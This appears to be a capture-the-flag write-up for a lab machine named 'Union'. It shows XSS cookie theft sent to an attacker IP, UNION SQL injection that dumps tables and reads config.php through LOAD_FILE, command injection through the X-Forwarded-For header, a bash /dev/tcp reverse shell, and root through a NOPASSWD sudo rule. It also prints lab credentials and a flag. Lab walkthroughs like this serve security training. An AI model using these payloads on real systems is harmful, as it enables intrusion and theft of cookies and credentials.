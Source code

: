 ```yaml
---
layout: post
title: "Union"
date: 2025-04-20 
categories: CTPS Playlist
---
```

# Attack Path

First enumerate the open ports and services

```bash
rustscan -a 10.129.96.75 --ulimit 5000

result:
80/tcp open  http    syn-ack

sudo nmap -sC -sV -p80 -oA nmap/union 10.129.126.21

result:
PORT   STATE SERVICE VERSION
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: nginx/1.18.0 (Ubuntu)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

The site has a player eligibility check field. It is vulnerable to xss

```bash
<script> alert(1) </script>
```

![image.png]({{ site.baseurl }}/assets/union/image.png)

Let’s enumerate subdirectories

```bash
gobuster dir -u http://10.129.96.75 -w /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt -x txt,php

result:
/css                  (Status: 301) [Size: 178] [--> http://10.129.96.75/css/]
/config.php           (Status: 200) [Size: 0]
/index.php            (Status: 200) [Size: 1220]
/challenge.php        (Status: 200) [Size: 772]
/firewall.php         (Status: 200) [Size: 13]

#firewall.php access denied
```

Create js script to grab the cookie: js.script

```bash
new Image().src='http://10.10.14.118/index.php?c='+document.cookie

```

Create php server script: index.php

```bash
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>

```

Now run the server

```bash
sudo php -S 0.0.0.0:80
```

Now execute the XSS exploit

```bash
<script src=http://10.10.14.118/script.js></script>

```

It’s our own cookie..

Let’s also try SQL injections with sqlmap. First coy the POST request to file

![image.png]({{ site.baseurl }}/assets/union/image%201.png)

Now use sqlmap:

```bash
sqlmap -r player.req --batch
```

Did not work

Let’s do the same with the flag request page:

```bash
sqlmap -r flag.req --batch
```

sqlmap returns nothing

We had to have started with a valid name that is not eligible

```bash
ippsec
```

![image.png]({{ site.baseurl }}/assets/union/image%202.png)

Now we try to inject it with sql

![image.png]({{ site.baseurl }}/assets/union/image%203.png)

It is still return not eligible, but when we try a user who is eligible, we get

![image.png]({{ site.baseurl }}/assets/union/image%204.png)

Therefore we know that the site is vulnerable to sql injections. Let’s try union injection

```bash
ipps' union SELECT SCHEMA_NAME FROM INFORMATION_SCHEMA.SCHEMATA-- - 
```

![image.png]({{ site.baseurl }}/assets/union/image%205.png)

The result mysql is the first row of the schemata table.

Let’s find out how many columns are the table returning:

```bash
ipps' UNION select 1,2-- -

This return congratulations again so we know the table only has 1 column
```

As it only returns one field, let’s concat all rows together

```bash
ipps' union select group_concat(schema_name) FROM INFORMATION_SCHEMA.SCHEMATA-- - 

result:mysql,information_schema,performance_schema,sys,november
```

The only non-default table is november. Let’s enumerate further

```bash
ipps' union select group_concat(TABLE_NAME, ":", COLUMN_NAME, "\n") FROM INFORMATION_SCHEMA.columns where TABLE_SCHEMA like 'november'-- - 

result:
Sorry, flag:one
,players:player
```

There is a flag table with column name one, and players table with column name player

Let’s see the flag table first

```bash
ipps' union select group_concat(one, "\n") FROM november.flag-- - 

result:
UHC{F1rst_5tep_2_Qualify}
```

Let’s do the player

```bash
ipps' union select group_concat(player, "\n") FROM november.players-- -

result:
Sorry, ippsec
,celesian
,big0us
,luska
,tinyboy 
```

let’s input the flag into the site. Our IP address has now been granted ssh access.

We can continue on with our injection to find user credentials to access.

```bash
ipps' union select LOAD_FILE('/var/www/html/index.php')-- -

result:
we see file pointing to a config.php. Let's see what that is

ipps' union select LOAD_FILE('/var/www/html/config.php')-- -

result:
<?php
  session_start();
  $servername = "127.0.0.1";
  $username = "uhc";
  $password = "uhc-11qual-global-pw";
  $dbname = "november";

  $conn = new mysqli($servername, $username, $password, $dbname);
?>
```

We get a username and password.

Now let’s try to ssh in. We are in.

```bash
cat user.txt

3f1ceafb864dd39736ecbfbb3f9d6c0b
```

Let’s investigate the web configuration files more as normally only the root user is allowed to set firewall rules to allow us to access another port.

Looking at the firewall.php file in /var/www/html, we can see there is a command injection flaw. This lets any thing put in variable $ip and gets executed.

```bash
 <?php
  if (isset($_SERVER['HTTP_X_FORWARDED_FOR'])) {
    $ip = $_SERVER['HTTP_X_FORWARDED_FOR'];
  } else {
    $ip = $_SERVER['REMOTE_ADDR'];
  };
  system("sudo /usr/sbin/iptables -A INPUT -s " . $ip . " -j ACCEPT");
?>

 
```

Now let’s visit the firewall.php and capture the traffic so we can add the header and command inject

![image.png]({{ site.baseurl }}/assets/union/image%206.png)

As we can see, when we added the whoami, the server replied with www-data, another way is to use the command sleep 2; see if the server stops for 2 seconds before replying. Now we can try a reverse shell

```bash
host:
nc -lnvp 4040

On burp:
bash -c 'bash -i >&/dev/tcp/10.10.14.118/4040 0>&1';
```

![image.png]({{ site.baseurl }}/assets/union/image%207.png)

Now we have shell

Now we check sudo privileges

```bash
sudo -l                                                                                                                                   00:00:31 [12/62]
Matching Defaults entries for www-data on union:                                                                                                          
    env_reset, mail_badpass,                                                                                                                              
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin                                                              
                                                                                                                                                          
User www-data may run the following commands on union:                                                                                                    
    (ALL : ALL) NOPASSWD: ALL   
```

We can execute anything…

```bash
sudo su root

```

- sql union injection
- leaked config files using LOAD_FILE
- command injection vulnerability using HTTP HEADERS
- sudo -l privileges